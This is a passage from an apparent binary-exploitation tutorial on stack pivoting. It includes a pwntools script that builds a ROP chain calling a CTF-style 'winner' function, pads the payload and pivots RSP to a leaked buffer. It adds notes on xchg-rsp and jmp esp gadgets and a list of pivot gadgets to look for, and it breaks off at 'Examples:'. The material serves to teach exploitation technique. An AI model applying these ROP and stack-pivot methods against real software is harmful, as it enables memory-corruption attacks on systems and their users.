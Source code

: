 ```
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
    0,                 # r13
    0,                 # r14
    0,                 # r15
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
    POP_CHAIN,
    buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
```
### xchg <reg>, rsp gadget

```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
```
### jmp esp

Check the ret2esp technique here:

[[../rop-return-oriented-programing/ret2esp-ret2reg.md]]

### Finding pivot gadgets quickly

Use your favorite gadget finder to search for classic pivot primitives:

- `leave ; ret` on functions or in libraries
- `pop rsp` / `xchg rax, rsp ; ret`
- `add rsp, <imm> ; ret` (or `add esp, <imm> ; ret` on x86)

Examples:
